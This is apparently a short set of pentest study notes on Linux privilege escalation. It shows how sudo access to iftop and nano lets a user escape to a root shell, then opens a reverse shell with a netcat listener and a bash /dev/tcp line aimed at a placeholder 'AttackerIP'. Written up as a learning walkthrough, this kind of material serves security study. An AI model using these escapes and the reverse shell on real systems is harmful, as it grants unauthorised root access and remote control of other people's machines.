 # shell escaping

start to know which process run with sudo privilege `sudo -l`

![image.png](<../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

we will exploit all service

***

### Iftop

<figure><img src="../../../.gitbook/assets/image 1 (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
sudo /usr/sbin/iftop
!/bin/sh
```

<figure><img src="../../../.gitbook/assets/image 2 (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

***

### awk

<figure><img src="../../../.gitbook/assets/image 3 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

***

> may command line not suitable when as a root by nano service so let’s try to take a reverse shell

### nano

<figure><img src="../../../.gitbook/assets/image 4 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
sudo nano
ctrl+R
ctrl+x
reset; sh 1>&0 2>&0
```

which open a root shell but it’s blind which u can see the result only so let’s take a reverse shell on our machine

```bash
# attacker machine
nc -nlvp 5253
```

```bash
# victim
bash -i >& /dev/tcp/AttackerIP/5253 0>&1
```

<figure><img src="../../../.gitbook/assets/image 5 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
